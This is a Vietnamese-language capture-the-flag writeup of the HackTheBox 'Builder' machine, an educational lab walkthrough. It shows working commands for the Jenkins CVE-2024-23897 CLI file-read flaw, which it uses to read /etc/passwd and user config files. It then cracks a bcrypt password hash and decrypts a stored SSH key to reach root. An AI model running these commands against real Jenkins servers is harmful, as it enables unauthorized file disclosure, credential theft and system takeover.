








+++
date = '2025-06-09T00:00:00+07:00'
draft = false
title = 'Builder - Hackthebox machine'
description = 'Writeups này có sự tham khảo từ 0xdf và ippsec.'
tags = ['hackthebox', 'machine']
+++
# Builder

Writeups này có sự tham khảo từ [0xdf](https://0xdf.gitlab.io/2024/02/12/htb-builder.html#authenticate-jenkins-access) và [ippsec](https://youtu.be/jYCOIf9Fcmo).

[Machine link](https://app.hackthebox.com/machines/Builder)

## Recon

### nmap

```bash
sudo nmap -sC -sV nmap 10.10.11.10
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 22:05 +07
Nmap scan report for 10.10.11.10 (10.10.11.10)
Host is up (0.49s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Từ thông tin `nmap` ta thấy rằng có thể có Jenkins server.

### TCP-8080 website



*Trang chủ*



*User*



*Credentials*

Sau khi lượn 1 vòng trên web thì tổng kết lại được server có 1 user `jennifer` và có 1 `SSH private key.`

## CVE-2024-23897

Tổng quan về CVE này thì:

* Jenkins cung cấp một giao diện dòng lệnh (CLI) tích hợp để truy cập Jenkins từ môi trường script hoặc shell.
* Jenkins sử dụng thư viện args4j để phân tích các đối số và tùy chọn lệnh trên điều khiển Jenkins khi xử lý các lệnh CLI. Bộ phân tích lệnh này có một tính năng thay thế ký tự @ tiếp theo bởi một đường dẫn tệp trong một đối số bằng nội dung của tệp.
* Tính năng này được kích hoạt theo mặc định và Jenkins 2.441 và phiên bản trước đó, LTS 2.426.2 và phiên bản trước đó không tắt nó.

Để sử dụng được giao diện dòng lệnh thì ta cần file `jenkins-cli.jar`. File này có thể tải được tại `[jenkins_URL]/jnlpJars/jenkins-cli.jar`

Ta sẽ tải file này về:

```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

### Readling file

Trước tiên hãy thử sử dụng `jenkins-cli.jar`

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help shiba
```

```
ERROR: No such command shiba. Available commands are above.
```

Giờ thì hãy thử:

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help '@/etc/passwd'
```

```
ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
```

Ta đã đọc được file `/etc/passwd` trên server, tuy nhiên chỉ đọc được 1 dòng duy nhất.

Sau khi thử sử dụng một số lệnh khác thì nhận ra rằng ngoài lệnh `help` còn nhiều lệnh khác giúp trả về được nhiều data hơn.

Sau đây là 1 script để test xem sử dụng lệnh nào trả về nhiều data nhất.

```bash
#!/bin/bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help 2>&1 | awk '/  [a-z]/ {print $1}' | while read cmd;
do 
printf "$cmd\t"
/bin/sh -c "java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $cmd '@/etc/passwd' 2>&1 &" | wc -l;
done
```

```
add-job-to-view 3
build   3
cancel-quiet-down       5
clear-queue     5
connect-node    22
console 3
copy-job        3
[...]
```

Ta thấy rằng có thể sử dụng được command `connect-node` vì nó trả về nhiều data nhất.

Đọc thử `/etc/passwd` thêm phát nữa.

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/etc/passwd'
```

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

Oke, giờ thì phải làm gì tiếp?

Ta hãy sử tự setup Jenkins sử dụng Docker để xem trong server nó có thể có cái gì.

#### Docker setup

```bash
docker image pull jenkins/jenkins:2.441
```

```bash
docker run --rm - jenkins/jenkins:2.441
5f14e5d8cc2705a0c556ef4b6766bd525d519abc5b141b09d61a123ec1bdc4ea
```

```bash
docker logs 5f14
[...]
*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

9a8c909c43cf4716b90c988c8c6470c0

This may also be found at: /var/jenkins_home/secrets/initialAdminPassword

*************************************************************
*************************************************************
*************************************************************
[...]
```

Có thử đọc `/var/jenkins_home/secrets/initialAdminPassword` trên server nhưng không có gì :crying\_cat\_face:

Truy cập jenkins tại `172.17.0.2:8080`, điền admin pass -> install plugins suggested -> tạo user.





Ta sẽ vào trongd jenkins container xem thử 1 vòng.

```bash
docker exec -it 5f14 bash
```

&#x20;Lượn 1 lúc thì thấy trong file `/vả/jenkins_home/users/shiba_15968724588337486186/config.xml` có password được encrypt của mình.&#x20;

```bash
cat /var/jenkins_home/users/shiba_15968724588337486186/config.xml
[...]
<passwordHash>#jbcrypt:$2a$10$KI1E.upevrd7VKm9diYSSesElJ3VzYGpp4CPKKINRqmUTpT1BbVGm</passwordHash>
[...]
```

Nhưng nếu muốn đọc được file trên server thì ta cần phải biết được tên folder của user vì ngoài tên mà ta tạo còn có 1 đoạn số ngẫu nhiên nữa.

Nhưng rất may mắn rằng thông tin này được lưu tại `/var/jenkins_home/users/user.xml`

Ảo thật, chả hiểu làm thế để làm gì :joy:

Thử luôn trên server:

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/var/jenkins_home/users/users.xml'
```

```
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  [...]
```

Folder của user jennifer tội nghiệp là `jennifer_12108429903186576833`

Tiếp đến là đọc encrypted password:

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml' 
```

```
[...]
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

Sử dụng `hashcat` để thử crack password này.

```bash
hashcat -m 3200 jennifer_hash --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
...[snip]...
$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:princess
...[snip]...
```

Vác credential này đăng nhập vào jenkins

### Shell as root

Giờ thì ta đã có thể truy cập được vào phần update credential.



Nội dung key đã được ẩn đi. Tuy nhiên ta lại có thể đọc được nội dung đã được encrypt bằng F12 :joy\_cat:

Có lẽ thường jenkins được chạy trên môi trường nội bộ nên mấy vụ quản lý credentials này không được làm hẳn hoi lắm.



Ta có thể sử dụng script console trong `Manage Jenkins > Script Console` để decrypt đoạn mã trên.



Theo mình tìm hiểu thìs các credentials sẽ được encrypt bởi key nằm trong `/var/jenkins_home/secrets/master.key`

Copy private key SSH về và SSH tới server thôi.

```purebasic
ssh -i id.rsa root@10.10.11.10
root@builder:~# cat root.txt
355f22a014501007782e6b8769235b07
root@builder:/root# cat /home/jennifer/user.txt
12b852e7052b9f8e778f008c9ed0f7c5
```

### Bonus

Ngoài cách đọc private key SSH bằng F12 trên thì còn các cách khác như sử dụng pipeline của jenkins. Có thể tham khảo tại bài viết của **0xdf.**&#x20;

Hoặc sử dụng Script Console để tạo reserve shell và sau đó mò móc enum credentials trên server (trong file credentials.xmlm chẳng hạn). Hoặc sử dụng các công cụ, chiến thuật redteam để leo quyền và tiến sâu hơn vào hệ thống.

## Reffernces

* [0dxf writeup](https://0xdf.gitlab.io/2024/02/12/htb-builder.html#authenticate-jenkins-access)
* [ippsec's video](https://youtu.be/jYCOIf9Fcmo)
* [Jenkins' document](https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client)
* StackOverFLow
